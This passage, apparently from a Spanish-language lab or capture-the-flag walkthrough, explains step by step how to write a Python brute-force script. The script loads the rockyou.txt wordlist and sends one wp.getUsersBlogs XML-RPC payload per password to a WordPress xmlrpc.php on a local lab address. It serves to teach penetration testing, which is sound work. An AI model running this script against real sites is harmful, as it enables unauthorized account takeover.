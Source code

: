 **Nota inicial**: Al principio, podríamos haber olvidado incluir el subdirectorio `/wordpress/` en la URL base (por ejemplo, usando solo `http://172.17.0.2/wp-content/plugins/`), lo que habría hecho que la enumeración fallara. Más adelante corregiremos esto tras probar el script.

---

### **Paso 4: Crear la función para fuerza bruta (`bruteforce`)**
Ahora implementamos la función para el ataque de fuerza bruta contra `xmlrpc.php`, basada en un script previo.

1. **Definición de la función**:
   - Creamos la función:
     ```python
     def bruteforce():
     ```

2. **Configuración inicial**:
   - Definimos la URL objetivo (el archivo `xmlrpc.php` de la máquina vulnerable), el usuario a atacar y el diccionario de contraseñas:
     ```python
     url = 'http://172.17.0.2/wordpress/xmlrpc.php'
     usuario = 'luisillo'
     contraseña = 'rockyou.txt'
     ```

3. **Carga del diccionario**:
   - Abrimos el archivo `rockyou.txt` (un diccionario famoso de contraseñas) y leemos sus líneas:
     ```python
     with open(contraseña, 'r', encoding='latin-1') as diccionario:
         passwords = diccionario.readlines()
     ```
   - Usamos `encoding='latin-1'` para evitar errores con caracteres especiales en el archivo.

4. **Bucle de fuerza bruta**:
   - Iteramos sobre cada contraseña, limpiándola de espacios con `.strip()`, y construimos un payload XML para el método `wp.getUsersBlogs`:
     ```python
     for password in passwords:
         password = password.strip()

         payload = f"""
         <?xml version="1.0" encoding="UTF-8"?>
         <methodCall>
         <methodName>wp.getUsersBlogs</methodName>
         <params>
         <param><value>{usuario}</value></param>
         <param><value>{password}</value></param>
         </params>
         </methodCall>"""
     ```
   - Enviamos el payload mediante una petición POST y verificamos la respuesta:
     ```python
     print(f"Probamos con la contraseña {password}")
     respuesta = requests.post(url, data=payload)
     if 'incorrectos.' not in respuesta.text:
         print(f"La contraseña del usuario {usuario} es {password}")
         exit(0)
     ```
   - Si la palabra "incorrectos" no está en la respuesta, asumimos que la contraseña es correcta y terminamos el script con `exit(0)`.
